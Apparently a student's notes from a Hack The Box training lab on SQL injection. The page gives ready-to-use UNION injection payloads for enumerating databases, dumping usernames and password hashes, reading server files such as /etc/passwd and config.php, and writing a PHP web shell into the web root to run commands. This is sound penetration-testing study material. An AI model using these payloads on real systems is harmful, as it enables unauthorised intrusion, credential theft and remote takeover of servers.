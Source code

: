 # 💇 Exploitation

## Database Enumeration

If we see in HTTP responses that the webserver is running `Apache` or `Nginx`, it is a good guess that the webserver is running on Linux, so the DBMS is likely `MySQL` and if the webserver is `IIS`, so it is likely to be `MSSQL`.

To form nice queries to dump the database, we can utilize the `INFORMATION_SCHEMA` Database. It contains metadata about the databases and tables present on the server.

If we only specify a table's name for a `SELECT` statement, it will look for tables within the same database.

So to reference a table present in another DB, we can use the dot ‘`.`’ operator. For example, to `SELECT` a table `users` present in a database named `my_database`, we can use:

```sql
SELECT * FROM my_database.users;
```

The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server.

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

Now we could use this with our union command

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

We can find the current database with the `SELECT database()` query.

```sql
cn' UNION select 1,database(),2,3-- -
```

The [TABLES](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html) table contains information about all tables throughout the database.. The `TABLE_NAME` column stores table names, while the `TABLE_SCHEMA` column points to the database each table belongs to. So we can use the following payload to find the tables within the `dev` database:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

The [COLUMNS](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) table contains information about all columns present in all the databases. The `COLUMN_NAME`, `TABLE_NAME`, and `TABLE_SCHEMA` columns can be used.

Let's say we have the credentials table:

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

And now we can form our `UNION` query to dump data of the `username` and `password` columns from the `credentials` table in the `dev` database.

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

_**What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**_

```
'UNION SELECT 1,2,3,4 FROM users-- -
```

<figure><img src="../../../.gitbook/assets/image (1282) (1).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES-- -
```

<figure><img src="../../../.gitbook/assets/image (1283) (1).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,COLUMN_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.COLUMNS-- -l
```

<figure><img src="../../../.gitbook/assets/image (1284) (1).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,username,password,4 FROM users-- -
```

<figure><img src="../../../.gitbook/assets/image (1285) (1).png" alt=""><figcaption></figcaption></figure>

## Reading Files

in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files.

So we need to start by enumerating user privileges

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

So the union command would look like&#x20;

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
#or
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

<figure><img src="../../../.gitbook/assets/image (1286) (1).png" alt=""><figcaption></figcaption></figure>

So now we see that we are root, we need to check if we have super admin priv:

```sql
SELECT super_priv FROM mysql.user
# sor the query will be 
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
# or if we target a user:
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

It will return Y or N

We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
#And the query will turn out like:
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

<figure><img src="../../../.gitbook/assets/image (1287) (1).png" alt=""><figcaption></figcaption></figure>

So if we are super admin we can say that we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function.

```sql
SELECT LOAD_FILE('/etc/passwd');
```

<figure><img src="../../../.gitbook/assets/image (1288) (1).png" alt=""><figcaption></figcaption></figure>

_**We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**_

```
' union select 1,CURRENT_USER(),3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (1289).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="../../../.gitbook/assets/image (1290).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

<figure><img src="../../../.gitbook/assets/image (1291).png" alt=""><figcaption></figcaption></figure>

## Writing Files

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

The [secure\_file\_priv](https://mariadb.com/kb/en/server-system-variables/#secure\_file\_priv) variable is used to determine where to read/write files from.

MariaDB has this variable set to empty by default but `MySQL` uses `/var/lib/mysql-files` as the default folder.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

If we are using a `UNION` injection, we have to get the value using a `SELECT` statement so `MySQL` global variables are stored in a table called [global\_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columns `variable_name` and `variable_value`.

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
#so it will turn out like:
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

<figure><img src="../../../.gitbook/assets/image (1292).png" alt=""><figcaption><p>No data = read/write files to any location</p></figcaption></figure>

The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files.

we can add `INTO OUTFILE '...'` after our query to export the results into the file we specified.

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```shell-session
ElFelixi0@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```shell-session
ElFelixi0@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

An injection command would look something like this:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

<figure><img src="../../../.gitbook/assets/image (1293).png" alt=""><figcaption></figcaption></figure>

### Writing a Web Shell

We can write the following PHP webshell to be able to execute commands directly on the back-end server:

```php
<?php system($_REQUEST[0]); ?>
# so the request would give out:
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

and to access the file:

```
http://SERVER_IP:PORT/shell.php?0=id
```

<figure><img src="../../../.gitbook/assets/image (1294).png" alt=""><figcaption></figcaption></figure>
